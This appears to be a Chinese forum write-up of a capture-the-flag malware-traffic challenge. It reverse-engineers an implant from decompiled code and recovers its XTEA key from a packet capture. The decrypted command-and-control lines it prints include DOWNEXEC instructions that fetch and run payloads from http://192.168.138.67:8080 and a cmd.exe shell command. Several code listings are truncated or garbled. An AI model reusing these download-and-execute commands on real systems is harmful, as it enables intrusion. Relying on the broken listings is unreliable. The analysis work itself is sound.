  v3 = -1i64;
  do
    v4 = pszString[++v3] == 0;
  while ( !v4 );
  if ( pszString[v3 - 1] == 10 )
  {
    v5 = -1i64;
    do
      v4 = pszString[++v5] == 0;
    while ( !v4 );
    pszString[v5 - 1] = 0;
  }
  v6 = -1i64;
  pcbBinary = 0;
  do
    ++v6;
  while ( pszString[v6] );
  CryptStringToBinaryA(pszString, v6, 1u, 0i64, &pcbBinary, 0i64, 0i64);
  v7 = pcbBinary + 1;
  if ( pcbBinary == -1 )
    v7 = -1i64;
  v8 = (char *)malloc(v7);
  memset(v8, 0, pcbBinary + 1);
  v9 = -1i64;
  do
    ++v9;
  while ( pszString[v9] );
  CryptStringToBinaryA(pszString, v9, 1u, (BYTE *)v8, &pcbBinary, 0i64, 0i64);
  Context = 0i64;
  v10 = 0i64;
  Delimiter[0] = '|';
  v11 = 0i64;
  if ( *v8 == 'D' )
  {
    v10 = strtok_s(v8 + 1, Delimiter, &Context);
    if ( v10 )
      v11 = strtok_s(0i64, Delimiter, &Context);
  }
  if ( *v8 == 'E' )
  {
    v12 = (char *)sub_1400019F0((__int64)(v8 + 1), pcbBinary - 1);
    v10 = strtok_s(v12, Delimiter, &Context);
    if ( v10 )
      v11 = strtok_s(0i64, Delimiter, &Context);
  }
```

这部分的逻辑相对简单。首先，根据 `CryptStringToBinaryA` 参数，我们知道 `CRYPT_STRING_BASE64 = 0x00000001`。第一个调用计算解码缓冲区的大小，第二个调用将其解码为 `v8`。

然后，它检查解码后的第一个字符是否为 `'D'` 或 `'E'`。如果它是 `'E'`，它还会调用 `sub_1400019F0` 来处理 `v8`。最后，它使用带有分隔符 `'|'` 的 `strtok_s` 将第一个和第二个子字符串分别存储到 `v10` 和 `v11` 中。

`sub_1400019F0`：



`9.png` (167.8 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=Mjc3MTYyMnw1MmU1NjgxY3wxNzkzNTcxMDU4fDE2ODA4NnwyMDIyMzEz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc3MTYyMnw1MmU1NjgxY3wxNzkzNTcxMDU4fDE2ODA4NnwyMDIyMzEz&nothumb=yes)

2025-4-16 12:10 上传

这显然是一个魔改的 XTEA 解密函数。`qword_1400086F0` 是它的密钥。

分析剩余部分：

```
  v13 = 0;
  v14 = -1i64;
  do
    ++v14;
  while ( v10[v14] );
  if ( (int)v14 
```

这部分根据拆分后的第一个元素计算 `v13`。

随后的 `switch ( v13 )` 然后根据 `v13` 切换条件。

## XTEA 密钥定位与数据包分析

现在需要知道 XTEA 密钥是什么。看交叉引用，找到以下内容：

```
case 0xD49A66B:
  qword_1400086F0 = (__int64)v11;
  return;
```

显然，XTEA 密钥是根据对应于 `0xD49A66B` 的命令分支分配的。因此，我们需要在 `pcapng` 中找到相应的包。

通过找到第一个 `payload`，我们看到：

```
REtFWUVYQ0h8RU5DUllQVFRSQUZGSUswNw==
```

解码得到：

```
DKEYEXCH|ENCRYPTTRAFFIK07
```

拆分后，我们知道密钥是 `ENCRYPTTRAFFIK07`。

稍微修改反编译结果：


```c
char XTEA_KEY[16] = "ENCRYPTTRAFFIK07";
char *decrypt_XTEA_data(char *data, unsigned int size)
{
    int v4;           // ecx
    int v5;           // eax
    int v6;           // ecx
    int v7;           // eax
    char *v8;         // r15
    uint8_t *v9;      // rcx
    int64_t v10;      // rsi
    uint32_t *v11;    // rdi
    unsigned int v12; // ebx
    uint64_t v13;     // r9
    int64_t v14;      // r14
    unsigned int v15; // r10d
    unsigned int v16; // r11d
    unsigned int v17; // eax
    unsigned int v18; // ebx
    unsigned int v19; // r11d
    unsigned int v20; // r10d
    int v21;          // edx
    unsigned int v22; // r11d
    unsigned int v23; // r10d
    int v24;          // edx
    unsigned int v25; // r11d
    unsigned int v26; // r10d
    int v27;          // edx
    unsigned int v28; // r11d
    unsigned int v29; // r10d
    int v30;          // edx
    unsigned int v31; // r11d
    unsigned int v32; // r10d
    int v33;          // edx
    unsigned int v34; // r11d
    unsigned int v35; // r10d
    int v36;          // edx
    unsigned int v37; // r11d
    unsigned int v38; // r10d
    int v39;          // edx
    unsigned int v40; // r11d
    unsigned int v41; // r10d
    int v42;          // edx
    unsigned int v43; // r11d
    unsigned int v44; // r10d
    int v45;          // edx
    unsigned int v46; // r11d
    unsigned int v47; // r10d
    int v48;          // edx
    unsigned int v49; // r11d
    unsigned int v50; // r10d
    int v51;          // edx
    unsigned int v52; // r11d
    unsigned int v53; // r10d
    int v54;          // edx
    unsigned int v55; // r10d
    int v56;          // edx
    unsigned int v57; // r11d
    unsigned int v58; // r10d
    int v59;          // edx
    unsigned int v60; // r11d
    unsigned int v61; // r10d
    int v63[4];       // [rsp+20h] [rbp-10h]
    v4 = *(char *)(XTEA_KEY + 5) | (*(char *)(XTEA_KEY + 4) > 3) + 1;
        v11 = (uint32_t *)v8;
        do
        {
            v12 = 0xC6EF3720;
            v13 = 0xC6EF3720;
            v14 = 2;
            v15 = v9[1] | ((*v9 | ((*(v9 - 1) | (*(v9 - 2) > 11) & 3];
                v18 = v12 + 0x61C88647;
                v19 = v16 - (v17 ^ (v15 + ((16 * v15) ^ (v15 >> 5))));
                v20 = v15 - ((v18 + v63[v18 & 3]) ^ (v19 + ((16 * v19) ^ (v19 >> 5))));
                v21 = (v18 + v63[(v18 >> 11) & 3]) ^ (v20 + ((16 * v20) ^ (v20 >> 5))));
                v18 += 0x61C88647;
                v22 = v19 - v21;
                v23 = v20 - ((v18 + v63[v18 & 3]) ^ (v22 + ((16 * v22) ^ (v22 >> 5))));
                v24 = (v18 + v63[(v18 >> 11) & 3]) ^ (v23 + ((16 * v23) ^ (v23 >> 5))));
                v18 += 0x61C88647;
                v25 = v22 - v24;
                v26 = v23 - ((v18 + v63[v18 & 3]) ^ (v25 + ((16 * v25) ^ (v25 >> 5))));
                v27 = v18 + v63[(v18 >> 11) & 3];
                v18 += 0x61C88647;
                v28 = v25 - (v27 ^ (v26 + ((16 * v26) ^ (v26 >> 5))));
                v29 = v26 - ((v18 + v63[v18 & 3]) ^ (v28 + ((16 * v28) ^ (v28 >> 5))));
                v30 = (v18 + v63[(v18 >> 11) & 3]) ^ (v29 + ((16 * v29) ^ (v29 >> 5))));
                v18 += 0x61C88647;
                v31 = v28 - v30;
                v32 = v29 - ((v18 + v63[v18 & 3]) ^ (v31 + ((16 * v31) ^ (v31 >> 5))));
                v33 = (v18 + v63[(v18 >> 11) & 3]) ^ (v32 + ((16 * v32) ^ (v32 >> 5))));
                v18 += 0x61C88647;
                v34 = v31 - v33;
                v35 = v32 - ((v18 + v63[v18 & 3]) ^ (v34 + ((16 * v34) ^ (v34 >> 5))));
                v36 = v18 + v63[(v18 >> 11) & 3];
                v18 += 0x61C88647;
                v37 = v34 - (v36 ^ (v35 + ((16 * v35) ^ (v35 >> 5))));
                v38 = v35 - ((v18 + v63[v18 & 3]) ^ (v37 + ((16 * v37) ^ (v37 >> 5))));
                v39 = (v18 + v63[(v18 >> 11) & 3]) ^ (v38 + ((16 * v38) ^ (v38 >> 5))));
                v18 += 0x61C88647;
                v40 = v37 - v39;
                v41 = v38 - ((v18 + v63[v18 & 3]) ^ (v40 + ((16 * v40) ^ (v40 >> 5))));
                v42 = (v18 + v63[(v18 >> 11) & 3]) ^ (v41 + ((16 * v41) ^ (v41 >> 5))));
                v18 += 0x61C88647;
                v43 = v40 - v42;
                v44 = v41 - ((v18 + v63[v18 & 3]) ^ (v43 + ((16 * v43) ^ (v43 >> 5))));
                v45 = v18 + v63[(v18 >> 11) & 3];
                v18 += 0x61C88647;
                v46 = v43 - (v45 ^ (v44 + ((16 * v44) ^ (v44 >> 5))));
                v47 = v44 - ((v18 + v63[v18 & 3]) ^ (v46 + ((16 * v46) ^ (v46 >> 5))));
                v48 = (v18 + v63[(v18 >> 11) & 3]) ^ (v47 + ((16 * v47) ^ (v47 >> 5))));
                v18 += 0x61C88647;
                v49 = v46 - v48;
                v50 = v47 - ((v18 + v63[v18 & 3]) ^ (v49 + ((16 * v49) ^ (v49 >> 5))));
                v51 = (v18 + v63[(v18 >> 11) & 3]) ^ (v50 + ((16 * v50) ^ (v50 >> 5))));
                v18 += 0x61C88647;
                v52 = v49 - v51;
                v53 = v50 - ((v18 + v63[v18 & 3]) ^ (v52 + ((16 * v52) ^ (v52 >> 5))));
                v54 = v52 - ((v18 + v63[(v18 >> 11) & 3]) ^ (v53 + ((16 * v53) ^ (v53 >> 5))));
                v18 += 0x61C88647;
                v55 = v53 - ((v18 + v63[v18 & 3]) ^ (v54 + ((16 * v54) ^ (v54 >> 5))));
                v56 = (v18 + v63[(v18 >> 11) & 3]) ^ (v55 + ((16 * v55) ^ (v55 >> 5))));
                v18 += 0x61C88647;
                v57 = v54 - v56;
                v58 = v55 - ((v18 + v63[v18 & 3]) ^ (v57 + ((16 * v57) ^ (v57 >> 5))));
                v59 = (v18 + v63[(v18 >> 11) & 3]) ^ (v58 + ((16 * v58) ^ (v58 >> 5))));
                v18 += 0x61C88647;
                v60 = v57 - v59;
                v61 = v58 - ((v18 + v63[v18 & 3]) ^ (v60 + ((16 * v60) ^ (v60 >> 5))));
                v16 = v60 - ((v18 + v63[(v18 >> 11) & 3]) ^ (v61 + ((16 * v61) ^ (v61 >> 5))));
                v12 = v18 + 0x61C88647;
                v13 = v12;
                v15 = v61 - ((v12 + v63[v12 & 3]) ^ (v16 + ((16 * v16) ^ (v16 >> 5))));
                --v14;
            } while (v14);
            *v11 = _byteswap_ulong(v15);
            v9 += 8;
            v11[1] = _byteswap_ulong(v16);
            v11 += 2;
            --v10;
        } while (v10);
    }
    return v8;
}
```

提取所有的编码内容，解密

```
int main(void) {
    const char *base64_strings[] = {
        "RS1J1SxUJcq0y6CmpvlFHTUxUub0NrsRb96TEwoWI5GFR0RM/jkk9ZA",
        "RXUBvuF7XzYu3La0O/fiqLx3nHSXTn7Ghw==",
        "RT6v61YF2uq+B5OOcTNe7h8=RT6v61YF2uq+B5OOcTNe7h8=",
        "RSPPpIhlKGAsCmnkR3kD+uD5g30DH199VGWitl4BFgiF7LhZMn4GWFBrg40R9ty2p1pAStWd399I=",
        "RSPPpIhlKGAsCmnkR3kD+uD5g30DH199VGWitl4BFgiF7LhZMn4GWFDRIh1agXJSpaR7Fxcm+fFl"
    };
    int num_strings = sizeof(base64_strings) / sizeof(base64_strings[0]);
    for (int i = 0; i 
```

得到：

DOWNEXEC|http://192.168.138.67:8080/data.png|DEKRYPT|0

```
CMDSHEL|C:\windows\system32\cmd.exe
EXECCMD|cd %temp%
EXITSHEL
DOWNEXEC|http://192.168.138.67:8080/data.txt|DEKRYPT|1
```

然后可以在流量包里找到并导出 `data.png` 和 `data.txt`。

通过 `MZ` 标头，可以知道 `data.txt` 实际上是一个 PE 文件。

同时，编写一个函数，将命令名称转换为相应的 `DWORD`：

```
def rol(value, count, bits=32):
    """
    模拟给定位数的 __ROL__ (向左旋转) 函数。

    Args:
        value: 要旋转的整数值。
        count: 要向左旋转的位数（正数）。
               要向右旋转，请使用负数。
        bits: 值中的位数（默认 32，如 uint32）。

    Returns:
        向左旋转的整数值。
    """
    count %= bits  # 规范化计数
    if count > 0:
        high = value >> (bits - count)
        # 在 Python 中，我们不需要有符号检查和旋转掩码
        # 因为 Python 整数可以正确处理旋转的按位运算。
        value >= count
        value |= low
    return value & ((1 
```

然后可以得到相应的分支。（因为篇幅原因，本文中省略了关于其他分支的细节，但我确实分析了它们。）

其中，重点关注 `DOWNEXEC` 分支：

```
case 0xD68FEEF:
  v22 = strtok_s(0i64, Delimiter, &Context);
  v23 = strtok_s(0i64, Delimiter, &Context);
  v24 = StrToIntA(v23);
  v25 = (const WCHAR *)sub_140001920(v11);
  v26 = sub_140001920(v22);
  sub_140002890(v25, v26, v24);
```

跟进 `sub_140001920`：

```
void *__fastcall sub_140001920(char *SrcBuf)
{
  __int64 v1; // rax
  __int64 v3; // rcx
  bool v4; // zf
```


# 逆向分析

## 第一个可执行文件分析

### `to_wchar` 函数

```c
  __int64 v5; // rcx
  size_t MaxCount; // rbx
  void *v7; // rsi
  size_t PtNumOfCharConverted; // [rsp+30h] [rbp-18h] BYREF

  v1 = -1i64;
  v3 = -1i64;

  do
    v4 = SrcBuf[++v3] == 0;
  while ( !v4 );

  if ( SrcBuf[v3 - 1] == 10 )
  {
    v5 = -1i64;
    do
      v4 = SrcBuf[++v5] == 0;
    while ( !v4 );
    SrcBuf[v5 - 1] = 0;
  }

  do
    v4 = SrcBuf[++v1] == 0;
  while ( !v4 );

  MaxCount = 2 * v1;
  v7 = malloc(2 * v1 + 2);
  memset(v7, 0, MaxCount + 2);
  PtNumOfCharConverted = 0i64;
  mbstowcs_s(&PtNumOfCharConverted, (wchar_t *)v7, MaxCount + 2, SrcBuf, MaxCount);
  return v7;
}
```

这实际上是一个 `to_wchar` 函数。

### 参数传递与 `sub_140002890`

所以这部分的内容是将命令名称之后的第一个参数作为 `v25`，将第二个参数作为 `v26`，将第三个参数转换为 `int` 作为 `v24`。

然后使用这些参数调用 `sub_140002890`。

让我们看看它的函数签名：

```c
int __fastcall sub_140002890(LPCWSTR lpszUrl, _WORD *Src, int a3)
```

我们只需要关注第二个和第三个参数的作用。使用交叉引用来定位：

```c
memcpy(&v27[2 * v6 + 2], Src, v31);

CreateProcessW(
    0i64,
    (LPWSTR)v27,
    0i64,
    0i64,
    0,
    0,
    0i64,
    Buffer,
    &StartupInfo,
    &ProcessInformation);
```

我们定位到它作为第二个参数传递给 `CreateProcessW`，也就是 `LPWSTR lpCommandLine`。因此，`Src` 实际上是 `data.exe` 的 `argv[1]`。

接下来，让我们定位 `a3`：

```c
 if ( a3 )
 {
   StartupInfo.cb = 104;
   v24 = -1i64;
   memset(&StartupInfo.cb + 1, 0, 100);
   memset(&ProcessInformation, 0, sizeof(ProcessInformation));
   do
     ++v24;
   while ( Src[v24] );
   v25 = -1i64;
   do
     ++v25;
   while ( TempFileName[v25] );
   v26 = (unsigned int)(2 * (v25 + v24) + 4);
   v27 = (char *)malloc(v26);
   memset(v27, 0, (unsigned int)v26);
   v28 = -1i64;
   do
     ++v28;
   while ( TempFileName[v28] );
   memcpy(v27, TempFileName, 2 * v28);
   v29 = -1i64;
   do
     v8 = TempFileName[++v29] == 0;
   while ( !v8 );
   v30 = -1i64;
   *(_WORD *)&v27[2 * v29] = 32;
   do
     ++v30;
   while ( Src[v30] );
   v31 = 2 * v30;
   do
     v8 = TempFileName[++v6] == 0;
   while ( !v8 );
   memcpy(&v27[2 * v6 + 2], Src, v31);
   CreateProcessW(
     0i64,
     (LPWSTR)v27,
     0i64,
     0i64,
     0,
     0,
     0i64,
     Buffer,
     &StartupInfo,
     &ProcessInformation);
 }
```

由上可知 `a3` 控制是否调用 `CreateProcessW`，即是否执行下载的文件。

所以我们现在已经完成了对第一个可执行文件的分析，并获得了第二个可执行文件（`data.txt`，即 `data.exe`）和 `data.png`。

`data.png` 看起来是加密的，解密方法应该就在 `data.exe`。

## 解密程序分析

拖入 `DIE`：



依旧无壳，拖入 `IDA`：



可以看到它没有被混淆，所以得到了一个相对清晰的 `main` 函数。

`argv[1]` 被转换为多字节字符串并作为参数传递给 `sub_140001260`，它应该就是主逻辑函数。





通过分析，发现 `pbData` 经过各种处理后，被用作解密密钥。它还从 `%temp%` 中读取 `data.png` 作为要解密的数据。所以作为 `argv[1]` 输入的 `DEKRYPT` 是密钥。

让我们看一下以下逻辑：

```c
if ( CryptDecrypt(hKey, 0i64, v12, 0, (BYTE *)v10, &v17) )
{
  memcpy(v11, v10, v17);
  v11 += v17;
}
while ( !v12 );
v13 = FileSize - *(v11 - 1);
v14 = malloc(v13);
memset(v14, 0, v13);
memcpy(v14, &v11[-v15], v13);
sub_1400010E0((BYTE *)v14, v13);
```

根据 `CryptDecrypt` 函数原型，可以知道 `v10` 是解密数据的缓冲区，也被移动到 `v14`，`v13` 是长度。

然后，这两个参数用于调用 `sub_1400010E0`。让我们跟踪它：

```c
BOOL __fastcall sub_1400010E0(BYTE *pbData, DWORD dwDataLen)
{
  BOOL result; // eax
  void *v5; // rbx
  DWORD pdwDataLen; // [rsp+30h] [rbp-40h] BYREF
  HCRYPTHASH phHash; // [rsp+38h] [rbp-38h] BYREF
  HCRYPTPROV phProv; // [rsp+40h] [rbp-30h] BYREF
  int Buf2[8]; // [rsp+48h] [rbp-28h] BYREF
  phProv = 0i64;
  result = CryptAcquireContextW(&phProv, 0i64, 0i64, 0x18u, 0xF0000000);
  if ( result )
  {
    phHash = 0i64;
    if ( CryptCreateHash(phProv, 0x800Cu, 0i64, 0, &phHash) && CryptHashData(phHash, pbData, dwDataLen, 0) )
    {
      pdwDataLen = 0;
      if ( CryptGetHashParam(phHash, 2u, 0i64, &pdwDataLen, 0) )
      {
        v5 = malloc(pdwDataLen);
        memset(v5, 0, pdwDataLen);
        if ( CryptGetHashParam(phHash, 2u, (BYTE *)v5, &pdwDataLen, 0) )
        {
          Buf2[0] = 0x829E7403;
          Buf2[1] = 0xAE136FC8;
          Buf2[2] = 0xD32FE57C;
          Buf2[3] = 0x363D418D;
          Buf2[4] = 0x92DB7146;
          Buf2[5] = 0x70FF29F6;
          Buf2[6] = 0x193D0B86;
          Buf2[7] = 0xF7DF625F;
          if ( !memcmp(v5, Buf2, pdwDataLen) )
            sub_1400015F0(std::cout);
        }
      }
      CryptDestroyHash(phHash);
    }
    return CryptReleaseContext(phProv, 0);
  }
  return result;
}
```

通过分析，可以知道这是一个哈希验证函数。如果哈希匹配硬编码数据 `buf2`，它会通过 `std::cout` 调用 `sub_1400015F0` 来输出特定信息。此函数应该是用于验证解密的信息是否正确。

通过跟踪 `sub_1400015F0`，我们找到以下信息：



因此，我们可以首先将 `data.png` 放在 `%temp%` 目录中，并使用密钥 `DEKRYPT` 运行该程序，看看是否正确：

